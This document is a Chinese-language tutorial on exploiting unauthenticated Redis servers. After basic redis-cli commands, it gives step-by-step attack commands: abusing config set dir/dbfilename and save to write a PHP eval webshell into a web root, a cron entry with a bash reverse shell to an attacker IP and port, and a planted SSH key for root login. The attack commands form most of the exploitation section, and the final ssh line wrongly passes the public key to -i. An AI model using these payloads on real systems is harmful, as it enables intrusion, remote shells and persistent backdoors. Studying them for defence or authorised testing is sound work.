# Redis

Redis是一个key-value存储系统，是跨平台的非关系型数据库


# 默认开放端口

6379


# 原理

如果redis没有采用相关的安全策略限制，redis服务会暴露在服务器公网，此时又没有设置密码认证（默认为空），则会导致任意用户在可以访问目标服务器的情况下未授权访问redis以及读取数据


# 影响版本

2.x 3.x 4.x 5.x


 

# 漏洞利用方法：

利用redis写入webshell

利用resis写入计划任务反弹shell

利用redis写入ssh公钥


# 简单使用redis

## 启动redis服务

执行redis-server服务

```
redis-server
```



查看6479端口信息

```
netstat -an|grep 6479
```



成功启动


## 连接redis控制台

执行redis-cli

```
redis-cli
```

连接控制台



# 本地检查配置项

```
config get requirepass
```

检查配置项

默认情况下requirepass参数为空，即不需要密码验证就可以连接到redis服务


```
config set requirepass 123456
auth 123456
```

配置密码，验证密码


## 数据操作

### 查看redis中的数据

```
keys *
```




### 赋值操作

```
set [键] [值]
```




### 取值操作

```
get [键]
```




### 哈希赋值

```
hset [哈希名] [键1] [值1]  [键1] [值1]  [键1] [值1] 
```



从中取值

```
hget [哈希名] [键名]
```




### 清空所有数据

```
flushall
```




### 检查指定key是否存在

```
exists <keys>
```


### 删除指定key

```
del <key>
```


## Redis存储机制

RDB Redis DataBase 默认存储

AOF append Only File


## 配置：

### 存储规则

当满足一定条件自动触发规则

进入配置文件搜索/SNAPSHOTTING



这里是把数据保存到磁盘的设置

格式是秒 加改变的键的数量

即当一定时间有多少键发生改变，就触发存储规则，将备份文件保存到指定目录


### 保存的文件名

/dbfilename

即保存到dump.rdb文件




### 保存的文件路径

/dir



./即保存到当前目录


### redis提供动态修改配置

config set：动态修改配置，重启后失效

```
config set dir /www/admin/wwwroot
```

将保存的文件路径设置在/www/admin/wwwroot下

```
config set dbfilename redis.php
```

将保存的文件名修改为redis.php

```
save
```

执行存储规则


因此可以利用该功能实现向任意目录写入任意功能


### redis webshell提权

#### 利用cli连接目标

```
redis-cli -h 192.168.142.66 -p 6379
```

#### 动态修改配置实现写入一句话木马

```
config set dir /www/admin/localhost_80/wwwroot
```

```
config set dbfilename redis.php
```

```
set x "<?php @eval($_POST[ra1n3];?>"
```

```
save
```

#### 解释：

这一段是将数据保存的目录修改至目标网站目录，将保存的文件修改为php脚本

并往其中写入一句话木马（键随意，值为一句话木马）

接着保存


即可实现往目标网站写入一句话木马实现后门连接

如果找不到目标根路径或者对方没有开放HTTP服务


### 定时任务反弹shell

#### 定时任务

cron文件存储路径

```
/var/spool/cron/
```

这个文件负责安排由系统管理员制定的维护系统以及其他任务的crontab

该路径下的存储文件是以用户的方式存储的


```
/etc/crontab
```

放的是对应周期的任务

dalily

hourly

monthly

weekly


#### 定时文件写入

（往redis中写入木马或定时任务需要在前后加\n换行符与其他数据隔开）

```
set x "\n* * * * * bash -I >& /dev/tcp/192.168.142.44/7777 0>&1\n"
```

```
config set dir /var/spool/cron/
```

```
config set dbfilename root
```

```
save
```

#### 解释：

设置反弹shell的定时任务

将保存路径设置在cron文件存储的路径

并将保存的文件名设置为当前主机的用户

这样cron就可以识别该定时任务创建执行


### 免密登录

#### 流程

客户端生成密钥对（公钥和私钥）

客户端把公钥发给服务端保存（正常需要密码，但是这里可以使用redis漏洞写入）

客户端使用私钥进行ssh免密登录

服务端用公钥解密，解密成功，说明密钥匹配

客户端免密登录成功

#### 客户端生成密钥对

```
ssh-keygen
```

生成密钥对，保存至.ssh文件中

id_rsa   id_rsa.pub


#### 利用动态修改配置将公钥内容写入/root/.ssh目录


#### 利用私钥实现免密登录

ssh -i ./id_rsa.pub 用户名@ip